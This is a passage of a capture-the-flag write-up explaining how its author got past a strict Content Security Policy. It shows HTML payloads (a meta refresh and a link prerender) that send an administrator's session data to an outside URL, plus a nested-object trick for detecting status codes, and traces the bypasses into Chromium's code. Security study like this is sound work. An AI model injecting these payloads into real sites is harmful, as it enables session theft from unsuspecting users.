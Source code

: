 Once I had figured this out, I was still left with an extremely restrictive CSP, `default-src 'none';` which disallowed almost all connections for the current page and also prevented any scripts, CSS or JS from loading. To bypass this CSP, I decided to fuzz some common HTML tags and look through the documentation. After going through a bunch of tags and obscure HTML tricks and weird edge cases [^1], fuzzing and checking if they could somehow be used to exfiltrate data (and/or) communicate with the outer world.

After quite a long amount of time I found two interesting bypasses, one was to use a meta tag to redirect the user to our domain like so:

```html
<meta http-equiv="refresh" content="0;url=https://google.com?data=[stuff]...
...
...">
```

and the other one was to do something similar with link prerendering:

```html
<link rel="prerender" href="https://google.com?data=[stuff]
..
..">
```

Both of these, would allow me to exfil the administrators session data, however, since we were in a headless pupeteer session in the admin bot and I was unsure if `prerender` would work in that setting, I decided to go with the meta tag.

> **TANGENT**
>
> Did you know that you can nest `<object>` tags inside of each other and if the outer one fails the page tries to load the inner one ?  I sure didn't, and found it out purely by luck. This seems a interesting way to detect 500/400 status codes without any freaking Javascript. Short example of how it can be used.
>```html
><object data="https://docs.google.com/document/d/17ms5USH8Fx_bdmrc0PHFHHJ40b3aT0NG6UDw0FMwVhM/edit?usp=sharing">
>    <object data="/is_not_part_of_some_org"></object>
></object>
>```

[^1]: A great place to start learning about and identifying weird edge cases is the [xsleaks wiki](https://xsleaks.dev) and the [DOMPurify tests](https://github.com/cure53/DOMPurify/blob/main/test/test-suite.js). For documentation regarding these, [MDN docs](https://developer.mozilla.org) and the [Web specifications](https://spec.whatwg.org/) are pretty good as well.

## A trip down CSP lane (after the CTF finished)

Despite having all the building blocks to the challenge, I still had a nagging feeling of not understanding how/why the CSP bypasses were possible, why were only the meta and the prerender tag were allowed to break the CSP. Once the CTF was over I decided to dive into the Chrome code to get some idea about why/how these bypasses were possible.

As it turns out Chrome has a [multi-process architecture](https://www.chromium.org/developers/design-documents/multi-process-architecture/aaa), including (but not restricted to) the Blink rendering engine (as part of the sandboxed renderer), a networking process, and a content process. When some markup want to load a resource, most of the time, it will trigger the [`ResourceFetcher`](https://source.chromium.org/chromium/chromium/src/+/main:third_party/blink/renderer/platform/loader/fetch/resource_fetcher.cc;bpv=1;bpt=1) class APIs which then interfaces with the networking process to load the data. Most of the CSP related filtering happens inside of the `ResourceFetcher` class, via the [`BaseFetchContext::CheckCSPForRequest(....)`](https://source.chromium.org/chromium/chromium/src/+/refs/heads/main:third_party/blink/renderer/platform/loader/fetch/fetch_context.h;drc=255b4e7036f1326f2219bd547d3d6dcf76064870;bpv=1;bpt=1;l=131) method even before the request is sent (or after the request occur but before a redirect is sent). However, a lot of the times for certain HTML/JS, APIs will load content via sending them to other processes, in our case the meta tag sends a navigation request to the content process where the CSP is not explicitly check, allowing us to connect to our server and send data. For the prerender operation, Chrome recently introduced the [NoStatePrefetch](https://developer.chrome.com/blog/nostate-prefetch/) a mechanism where the prerendering happens in a [different sandboxed process with a slimmed down version of the blink renderer](https://source.chromium.org/chromium/chromium/src/+/main:components/no_state_prefetch/;bpv=1;bpt=0)[^2], since Chrome also doesn't check CSP in this process, we are also able to exfil data via this method.


[^2]: The link goes to the directory where no state prefetch is implemented, as you can see, the system implements their own browser, renderer components